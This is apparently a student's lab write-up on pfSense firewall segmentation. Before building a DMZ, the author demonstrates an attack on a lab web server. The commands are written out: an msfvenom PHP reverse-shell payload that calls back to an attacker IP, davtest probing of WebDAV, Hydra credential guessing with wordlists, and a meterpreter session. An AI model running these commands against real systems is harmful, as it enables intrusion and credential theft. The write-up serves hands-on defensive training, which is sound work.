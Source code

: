 # Configuring Network Segmentation and Security
<h3>Objectives</h3>

- Apply security solutions for infrastructure management
- Implement configuration changes to existing controls to improve security
#
<h3>pfSense Firewall</h3>

For this lab, I'll be using the pfSense firewall. pfSense is an open-source unified threat management (UTM) appliance created and maintained by Netgate. pfSence works as both a router and a firewall.

To  connect to the pfSense firewall, I just type in its IP into the browser: http://10.1.0.254
- 10.1.0.254 is this network's default gateway. Usually, the default gateway is a router, in this case, pfSense works as both a router and a firewall, and that is why it's this network's default gateway.
![image](https://github.com/user-attachments/assets/ae1d90aa-045d-49e2-b85b-98e6ca659194)
![image](https://github.com/user-attachments/assets/fe92ec5f-12df-4dd2-bf51-ef06452c75ec)
- This firewall/router is configured with one external and one internal interface. The firewall screens the local network segment from external networks, allowing only traffic to match the access control list (ACL).
#
<h3>Reviewing Firewall ACLs</h3>

I can access the ACL or rules by clicking **Firewall > Rules**
- Here I can see that there are multiple tabs, so there can be separate rules for the the WAN and LAN

![image](https://github.com/user-attachments/assets/cdcaae03-722e-41f8-bdbc-5f0c239e4243)
![image](https://github.com/user-attachments/assets/95711b78-a316-407f-827f-e24c73f9ca42)
- Several types of traffic are permitted into the LAN: ICMP (ping), DNS, HTTP/HTTPS, and SMTP.
- All except the ICMP rule, are forwarding rules meaning that traffic for those ports is directed to a host on the LAN.

Now on the **LAN tab**
![image](https://github.com/user-attachments/assets/4bc00873-6876-4173-a484-fb810bc2e080)
- Based on these rules, there is no egress filtering. Any type of traffic from a host on the LAN is permitted to any endpoint, **unless** a deny rule is placed higher in the ACL.
  - The order of the rules can be changed around since  the firewall prioritizes the rules from top to bottom, it will change how the firewall behaves with certain traffic.
- The **Anti-Lockout Rule** prevents the firewall from locking out an administrator from the web interface.
It's enabled by default and allows traffic from any source within the network to any firewall administration protocol listening on the LAN IP address.

If I now click on **Firewall > NAT**, it shows the hosts that are designated to receive traffic for DNS, HTTP/HTTPS, and SMTP.

![image](https://github.com/user-attachments/assets/be50cdea-d36b-40f9-9f6f-24db262ef564)
![image](https://github.com/user-attachments/assets/d9d7c69c-035e-4fb4-858b-951b4605f90b)
- Since the hosts on this network are not separated into different segments, if an attacker is able to gain access to the server than they can pivot onto other hosts.

#
<h3>Testing Host Security</h3>

In order to demonstrate how a server may make other hosts on the same segment vulnerable, I will run an attack against the web server.

On a Kali VM, which I'll be using as the attack box, I'll start msfconsole and run the following commands: 

1: msfvenom -p php/meterpreter/reverse_tcp lhost=192.168.2.192 lport=8080 -f raw > /root/get.php
- Creates a reverse shell via PHP code
![image](https://github.com/user-attachments/assets/844f1c13-d830-4f2e-aa5c-0df1d04a3e03)

2: davtest -url http://www.515support.com/webdav
- I'll leverage the server’s webdav environment to upload malicious code
![image](https://github.com/user-attachments/assets/4e550bbe-86db-4537-b21d-61571f1a6d22)

This environment is password-protected so it failed to connect, however, I'll use the password cracker THC Hydra or Hydra and a wordlist containing possible usernames and password variations, and perform a credential-stuffing attack. 

Command: hydra -L /root/Downloads/users-515support.txt -P /root/Downloads/pwd-515support.txt www.515support.com http-get /webdav

![image](https://github.com/user-attachments/assets/9c1676b0-ecc5-4e98-906d-65d3f4719636)
- Hydra was able to crack the user/password combo of dev:Pa$$w0rd

Now I can try connecting again using these credentials
![image](https://github.com/user-attachments/assets/bc809845-89f7-4d4f-aa30-1463449c51fe)

Now that I'm connected I can start the listener

![image](https://github.com/user-attachments/assets/650491ad-54a3-4c62-82df-f7b303848371)

On a second terminal window, I'll run the following command to trigger the script and start the reverse shell
![image](https://github.com/user-attachments/assets/cb510199-1bdb-4420-a7b0-c091133b3d16)

Back on the terminal running msfconsole, the meterpreter shell was successful, and I now  have access to the server's command line.
![image](https://github.com/user-attachments/assets/2f47d67f-5dea-4131-b89a-b1c4909f184f)

Leaving the session in the background to try creating a hash dump, results in failure because I dont have root access.
![image](https://github.com/user-attachments/assets/bf494440-2074-445a-a097-4a89287538b6)

Trying a different method also yields no access, however, there is the potential for intrusion against other hosts on the same network as the server.
![image](https://github.com/user-attachments/assets/89437583-ba17-4b1d-a3e8-df2f3cf1f37f)

![image](https://github.com/user-attachments/assets/2f825b5b-1164-43e3-8993-94854a90d798)
![image](https://github.com/user-attachments/assets/51ce190a-304f-4179-82d2-ae5a05b05dbd)

The reason that it's possible to gain access to another host on the network is because of the firewall rules. There are no rules against certain outbound traffic or connections between the server and other hosts on the same network. 
If the firewall rules were filtering connections between this server and other hosts, and blocking unauthorized outbound connections, then this would not be possible.
#
<h3>Configuring Segmentation</h3>

Now I will configure the firewall so that the web server is isolated in a demilitarized zone (DMZ) segment, separate from other hosts.

In Hyper-V Manager, Virtual Switch Manager > Private > Create Virtual Switch and name the switch 'vDMZ'
![image](https://github.com/user-attachments/assets/a1add197-8bb8-4f8e-ad3c-23bcfca3e541)

Now in the settings menu for UTM1, I'll set the vDMZ switch for the hn2 adapter

![image](https://github.com/user-attachments/assets/42798972-644d-4d35-88bd-a82e55b927a2)
![image](https://github.com/user-attachments/assets/58165c35-a154-4592-b473-bd97cb7a873b)

And I'll do the same for LX1, on the eth0 adapter

![image](https://github.com/user-attachments/assets/9c084d65-9284-4079-93d0-a980177c841c)

Back on pfSense, click on **Interfaces > Assignments**
![image](https://github.com/user-attachments/assets/edda3a98-8f04-4080-8122-a25dbbb2bcfd)
And I added OPT1, which is UTM1's interface connected to the virtual switch (vDMZ)
![image](https://github.com/user-attachments/assets/b95b2700-816d-4e64-b19c-9de6bdeab33d)

Clicking on **Interfaces > OPT1**, I enabled the interface and set the IPv4 address as 10.1.254.254 /24 and to be static, then saved the configuration at the bottom of the menu

![image](https://github.com/user-attachments/assets/b0d2478e-d4d2-47f2-8fa0-b935ff3d8794)
![image](https://github.com/user-attachments/assets/83159cc6-a7b6-4dae-bc46-dd2506a4015c)

Clicking on **Firewall > NAT**, I'm going to edit the HTTP and HTTPS forwarding rules to redirect traffic to the server @ 10.1.254.10 

![image](https://github.com/user-attachments/assets/f0c07ae9-a6b1-48f0-9eb4-e56e9e42e891)
![image](https://github.com/user-attachments/assets/c88724ec-d65e-4e3b-a871-59872f688ff6)
![image](https://github.com/user-attachments/assets/7a3724ff-dd69-4889-9f1c-c5c8d8409e74)
![image](https://github.com/user-attachments/assets/33f1d600-1a2b-4405-b482-1c9701144195)

Then I went to **Status > System  Logs Settings** and enabled 'log firewall default blocks'
![image](https://github.com/user-attachments/assets/2e9eebf6-09e8-40fe-a4d9-cc6ec83b4ccf)

The last thing I need to do is add the server to the DMZ subnet, by reconfiguring its IP settings
![image](https://github.com/user-attachments/assets/3e2ca707-4868-490f-8e56-4ff9f44dfedc)

Now that I changed the IP to the server the connection to the attack box has died, so there is no current reverse shell
![image](https://github.com/user-attachments/assets/5ebf2d36-33d4-4e0a-bbb6-203b72362e80)
#
<h3>Testing Segmentation</h3>

If I try to establish another reverse shell (same way as before, starting the listener, and using the curl command to create the reverse shell), it will not work because the ACL rules are configured to apply only to incoming new connections on each interface, so the default block on OPT1 stops the web server from initiating new connections. The ACL rules only allow connections started by external hosts rather than a connection started by the server to an external host (reverse shell).

Checking the firewall logs (**Status > System Logs > Firewall**), we see just that. Any traffic from the server (10.1.254.10) to the attack box (192.168.2.192), is blocked. But traffic from the attack box to the server is not.
![image](https://github.com/user-attachments/assets/45e04c13-f741-4372-a9c5-9cf2299d1dce)
![image](https://github.com/user-attachments/assets/0bc78382-f4c1-4bb0-852f-7cf51cdec408)

This is a hidden, default deny rule, that blocks any inbound traffic to the WAN interface from an external network.
![image](https://github.com/user-attachments/assets/96927429-a1ee-40fd-b75b-77d53edc1318)

Now the server has been successfully isolated from the other hosts on the network.
#
<h3>Challenge</h3>

**Configure an ACL that blocks hosts on the vLOCAL switch/LAN net from accessing anything other than SSH and HTTP/HTTPS on the vDMZ switch/OPT1 net.**

These are the four rules I made to make this possible. Each one either allows/denies traffic specifically from the LAN net, to the OPT1 net. The deny rule denies all traffic including SSH, HTTP/HTTPS but I put it at the bottom of the list so that it will not trigger before the other allow rules, that way SSH, and HTTP/HTTPS traffic can still pass through.
![image](https://github.com/user-attachments/assets/d2e62656-5499-4b03-8eba-89353252ee56)

To test whether on not the ACL rules work I first tried accessing http://www.515web.net and http://10.1.254.10 from a VM that was on the LAN net, and both were successful.
![image](https://github.com/user-attachments/assets/58fe5c65-ab81-4ef9-9701-b570d8115f83)
![image](https://github.com/user-attachments/assets/d93681d5-aef6-437d-af7c-c267d8aa5b5b)

Lastly, I switched the Linux VM (attack box), to the LAN net and used Nmap to test ports 22, 53, 80, and 443, and since it worked correctly DNS port 53 was shown as filtered and the rest were open.
- I also tested against the top 100 ports and as expected 97 came back as filtered and 22, 80, and 443 were open.
![image](https://github.com/user-attachments/assets/cc91a8a2-df07-423c-a21f-34682a354867)
![image](https://github.com/user-attachments/assets/ad3f6ace-9550-4fb9-b0ad-9f7ba8a4d5d0)

I also used Netcat to show that traffic over common ports like 21, 23, 25, and 53 are not allowed, but 22, 80, and 443 are allowed
![image](https://github.com/user-attachments/assets/aa38d290-ac04-4cd7-a1df-da7b11d5d6ef)
![image](https://github.com/user-attachments/assets/045adc42-ea13-4229-9729-ccf6b91bb027)

#
**Summary: In this lab, I was able to get some hands-on experience with the pfSense UTM, and test ACL rules to permit or deny traffic based on security requirements. I also used MSFconsole to simulate an attack, which was possible due to poorly configured security controls.**



